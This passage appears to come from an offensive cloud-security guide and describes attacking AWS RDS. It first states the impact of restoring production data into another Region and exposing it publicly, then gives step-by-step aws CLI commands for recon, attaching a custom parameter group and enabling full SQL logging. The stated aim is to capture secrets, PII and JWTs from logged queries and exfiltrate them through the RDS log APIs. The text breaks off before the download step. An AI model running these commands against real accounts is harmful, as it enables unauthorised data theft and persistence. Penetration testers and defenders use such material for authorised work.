 Impact: Persistence and data exfiltration by restoring a copy of production data into another Region and exposing it publicly with attacker-controlled credentials.

<details></details>

### Enable full SQL logging via DB parameter groups and exfiltrate via RDS log APIs

Abuse `rds:ModifyDBParameterGroup` with RDS log download APIs to capture all SQL statements executed by applications (no DB engine credentials needed). Enable engine SQL logging and pull the file logs via `rds:DescribeDBLogFiles` and `rds:DownloadDBLogFilePortion` (or the REST `downloadCompleteLogFile`). Useful to collect queries that may contain secrets/PII/JWTs.

Permissions needed (minimum):
- `rds:DescribeDBInstances`, `rds:DescribeDBLogFiles`, `rds:DownloadDBLogFilePortion`
- `rds:CreateDBParameterGroup`, `rds:ModifyDBParameterGroup`
- `rds:ModifyDBInstance` (only to attach a custom parameter group if the instance is using the default one)
- `rds:RebootDBInstance` (for parameters requiring reboot, e.g., PostgreSQL)

Steps
1) Recon target and current parameter group
```bash
aws rds describe-db-instances \
  --query 'DBInstances[*].[DBInstanceIdentifier,Engine,DBParameterGroups[0].DBParameterGroupName]' \
  --output table
```

2) Ensure a custom DB parameter group is attached (cannot edit the default)
- If the instance already uses a custom group, reuse its name in the next step.
- Otherwise create and attach one matching the engine family:
```bash
# Example for PostgreSQL 16
aws rds create-db-parameter-group \
  --db-parameter-group-name ht-logs-pg \
  --db-parameter-group-family postgres16 \
  --description "HT logging"

aws rds modify-db-instance \
  --db-instance-identifier <DB> \
  --db-parameter-group-name ht-logs-pg \
  --apply-immediately
# Wait until status becomes "available"
```

3) Enable verbose SQL logging
- MySQL engines (immediate / no reboot):
```bash
aws rds modify-db-parameter-group \
  --db-parameter-group-name <PGNAME> \
  --parameters \
  "ParameterName=general_log,ParameterValue=1,ApplyMethod=immediate" \
  "ParameterName=log_output,ParameterValue=FILE,ApplyMethod=immediate"
# Optional extras:
#   "ParameterName=slow_query_log,ParameterValue=1,ApplyMethod=immediate" \
#   "ParameterName=long_query_time,ParameterValue=0,ApplyMethod=immediate"
```
